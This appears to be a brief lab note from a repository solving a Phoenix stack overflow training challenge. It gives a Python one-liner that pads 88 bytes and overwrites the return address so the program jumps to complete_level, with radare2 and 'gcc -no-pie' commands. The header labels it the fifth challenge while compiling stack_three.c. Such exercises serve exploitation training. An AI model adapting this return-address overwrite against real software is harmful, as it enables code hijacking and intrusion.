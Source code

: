 #Fifth Phoenix stack overflow challenge
##Challenge requires to override return address on stack
(which then returns to complete_level function instead of main)

Flag:
python -c 'print("A"*88+"\x52\x11\x40\x00"+4*"\x00")' > pattern.txt
r2 -r profile.rr2 -d a.out


Compile with PIE disabled:

gcc -no-pie stack_three.c


